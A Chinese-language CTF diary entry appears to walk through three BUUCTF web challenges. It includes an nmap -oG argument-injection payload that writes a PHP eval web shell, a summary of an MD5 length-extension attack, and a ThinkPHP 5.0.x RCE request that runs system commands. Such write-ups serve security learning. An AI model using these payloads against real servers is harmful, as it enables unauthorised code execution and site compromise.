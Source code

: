```yaml
---
layout: article
mathjax: true
tag: buu
---
```


# buu摸鱼日记（6）

昨天状态不好，摸了

## [BUUCTF 2018]Online Tool

说实话，刚开始一点头绪都没有

这类题做得少

看了wp才发现，真tm简单

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

先去查了$_SERVER是啥，请求数组什么的，里面是请求头里的东西（其实根本不用管）

关键在于那个host

> 
>
> escapeshellarg ( string `$arg` ) : string
>
> **escapeshellarg()** 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。对于用户输入的部分参数就应该使用这个函数。shell 函数包含 [exec()](https://www.php.net/manual/zh/function.exec.php), [system()](https://www.php.net/manual/zh/function.system.php) [执行运算符](https://www.php.net/manual/zh/language.operators.execution.php) 
>
> escapeshellcmd ( string `$command` ) : string
>
> **escapeshellcmd()** 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 [exec()](https://www.php.net/manual/zh/function.exec.php) 或 [system()](https://www.php.net/manual/zh/function.system.php) 函数，或者 [执行操作符](https://www.php.net/manual/zh/language.operators.execution.php) 之前进行转义。

这里有转义，所以管道什么的肯定是不行了。由于我没怎么用过nmap（好吧我承认我是个菜家伙），不知道命令，看了wp才知道nmap有一个参数-oG可以实现将命令和结果写到文件

呢么直接传马

根目录有flag（又是根目录）

```php
host=' <?php @eval($_POST["hack"]);?> -oG hack.php '
```

## [De1CTF 2019]SSRF Me

一进来就是flask源码，我有点懵逼

题目不难 就是hash长度拓展攻击（就是我看着这个代码审计晕了）

通过审计 调用方法 拿flag

就是在不知道key的具体值的时候 我们可以通过某些条件比如key的长度 某个已知明文通过MD5($key.已知明文)MD5值去推MD5($key.任意值)的MD5

```python
def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()
```

这里就是我们已知 secert_key + param + action(scan)值， 

~~我怎么感觉这题和ssrf没啥关系~~

## [BJDCTF 2nd]old-hack

被吊打

查了一下发现是thinkphp的洞

随便getpost值 就可以让他报错

就可以看到一大堆信息

对应版本有这个[rce漏洞](https://blog.csdn.net/xuandao_ahfengren/article/details/86333189)

[RCE thinkphp分析](https://www.smi1e.top/thinkphp-5-0-05-0-23-rce-漏洞分析/)

```
http://0f9f5bc1-7b35-447d-9468-ee4a2bf28c86.node3.buuoj.cn/?s=captcha

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=cat  /flag
```

